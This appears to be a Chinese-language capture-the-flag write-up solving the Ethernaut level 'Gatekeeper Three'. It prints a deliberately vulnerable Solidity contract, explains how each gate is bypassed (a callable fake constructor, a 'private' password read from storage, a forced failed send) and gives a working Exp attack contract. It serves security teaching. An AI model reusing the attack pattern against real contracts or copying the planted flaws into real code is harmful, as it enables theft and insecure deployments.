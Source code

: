 ## Level_28.Gatekeeper Three

要求：

> 通过守门人；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract SimpleTrick {
    GatekeeperThree public target;
    address public trick;
    uint256 private password = block.timestamp;

    constructor(address payable _target) {
        target = GatekeeperThree(_target);
    }

    function checkPassword(uint256 _password) public returns (bool) {
        if (_password == password) {
            return true;
        }
        password = block.timestamp;
        return false;
    }

    function trickInit() public {
        trick = address(this);
    }

    function trickyTrick() public {
        if (address(this) == msg.sender && address(this) != trick) {
            target.getAllowance(password);
        }
    }
}

contract GatekeeperThree {
    address public owner;
    address public entrant;
    bool public allowEntrance;

    SimpleTrick public trick;

    function construct0r() public {
        owner = msg.sender;
    }

    modifier gateOne() {
        require(msg.sender == owner);
        require(tx.origin != owner);
        _;
    }

    modifier gateTwo() {
        require(allowEntrance == true);
        _;
    }

    modifier gateThree() {
        if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
            _;
        }
    }

    function getAllowance(uint256 _password) public {
        if (trick.checkPassword(_password)) {
            allowEntrance = true;
        }
    }

    function createTrick() public {
        trick = new SimpleTrick(payable(address(this)));
        trick.trickInit();
    }

    function enter() public gateOne gateTwo gateThree {
        entrant = tx.origin;
    }

    receive() external payable {}
}
```

#### 分析

##### 第一道关卡

依旧很简单，一个假的构造函数，可以直接利用` call `调用，这样` owner `就会变成Exp合约地址；

之后调用` enter() `时，` tx.origin `则为我们的钱包地址；

##### 第二道关卡

调用` getAllowance() `，然后拿到` SimpleTrick `合约中正确的` password `即可；

##### 第三道关卡

首先需要` GatekeeperThree `合约中大于0.001ETH，之后向` owner `合约中发送ETH需要失败，可以在` receive() `中使用` revert() `中来拒绝收款；



#### 攻击

1. 调用` createTrick `创建` SimpleTrick `合约，此时会初始化` password `；
2. 获得` SimpleTrick `合约地址，并且拿到正确的` password `，使` allowEntrance `为true；
3. 创建一个exp合约，调用` construct0r() `，使` owner `变成exp合约地址，同时` receive `中使用` revert `来拒绝收款；
4. 发送0.0011ETH到题目合约中；

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "./Ethernaut.sol";

contract Exp {
    GatekeeperThree public gt;
    constructor(address addr) {
        gt = GatekeeperThree(payable(addr));
    }

    function Attack(uint256 password) public  {
        gt.construct0r();
        gt.getAllowance(password);
        gt.enter();
    }

    receive() external payable { 
        revert();
    }
}

```

得到` SimpleTrick `合约地址：

![image-20250223210700379](./assets/image-20250223210700379.png)

获得正确的密码：

![image-20250223210851073](./assets/image-20250223210851073.png)

发送ETH：

![image-20250223211516222](./assets/image-20250223211516222.png)

部署exp合约，并Attack；

